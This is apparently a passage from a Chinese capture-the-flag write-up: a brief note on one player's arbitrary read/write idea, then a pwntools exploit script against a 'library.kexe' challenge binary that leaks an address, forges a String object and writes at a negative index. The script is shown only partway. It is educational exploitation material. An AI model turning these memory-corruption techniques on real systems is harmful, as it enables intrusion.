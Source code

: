 {% note green fa-lightbulb %}
有师傅通过 *watch* 可以将输入的字符串放到栈上，但是我这里不行...
*hkbin* 师傅的思路是通过修改`Library`中关于magic cat的使用计数和指针，
从而达到任意读写的目的，也挺巧妙的。
{% endnote %}

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = './library.kexe'

def payload(lo: int):
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t, 'b l8study\nc')
    else:
        t = remote('1.95.34.119', 25314)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.39-0ubuntu8.4_amd64/libc.so.6')
    elf = ELF(EXE)

    def borrow(name: bytes):
        t.sendlineafter(b'What do you want to do', b'1')
        t.sendlineafter(b'What book to', name)

    def read(idx: int, mem: bytes):
        t.sendlineafter(b'What do you want to do', b'3')
        t.sendlineafter(b'What book to', b'0')
        t.sendlineafter(b'at page', str(idx).encode())
        t.sendafter(b'to write', mem)

    def study() -> bytes:
        t.sendlineafter(b'What do you want to do', b'8')
        t.recvuntil(b'borrowed books: \n')
        return t.recvuntil(b']\n')[1:-2]

    def leave():
        t.sendlineafter(b'What do you want to do', b'9')

    def cat(op: bytes, loop: int, mem: bytes=b'') -> int | None:
        t.sendlineafter(b'What do you want to do', b'114514')
        if loop == 1:
            return None
        if op == b'g':
            t.sendlineafter(b'[p/g]\n', op)
            return int(t.recvline())
        if op == b'p':
            t.sendlineafter(b'[p/g]\n', op)
            t.sendafter(b'Put what', mem)
            return None
        assert False

    borrow(b'RANDOM') # create an entry
    cat(b'', 1)
    buf_addr = cat(b'g', 2) - 0x90
    info(f'Try to forge String @ {buf_addr:#x}')
    cat(b'p', 3, flat(elf.symbols['kt_String'], 200))
    read(-0x8000, flat(buf_addr, 0)) # ArrayList(Array(String(buf_addr, 200)))

```